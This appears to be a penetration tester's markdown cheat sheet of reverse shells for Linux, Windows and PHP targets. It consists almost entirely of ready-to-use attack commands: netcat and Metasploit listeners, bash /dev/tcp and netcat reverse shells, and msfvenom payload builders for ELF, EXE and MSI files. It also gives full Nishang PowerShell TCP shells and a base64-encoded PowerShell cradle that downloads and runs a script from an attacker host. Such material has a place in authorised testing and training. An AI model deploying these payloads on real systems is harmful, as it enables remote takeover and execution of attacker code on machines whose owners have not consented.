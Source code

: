 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

Other Note: Can curl --data-urlencode params
```
curl http://target/file --data-urlencode "paramname=paramvalue"

Great for initial access via revshells through web shells.
```

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

## Listeners

Meterpreter Windows x86 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Meterpreter Windows x86 Reverse TCP Staged
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Meterpreter Windows x64 Reverse TCP Staged
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang Invoke-PowerShellTcpOneLine.ps1
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('ipaddress',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('ipaddress',port)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Nishang Invoke-PowerShellTcp.ps1
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```

MSI
`msfvenom -p windows/x64/shell_reverse_tcp lhost=ipaddress lport=port -f msi -o reverse.msi`

### C++ RevShell

Custom C++ Reverse Shell
https://github.com/tudorthe1ntruder/reverse-shell-poc

# PHP

Pentest Monkey
`/usr/share/webshells/php/php-reverse-shell.php`
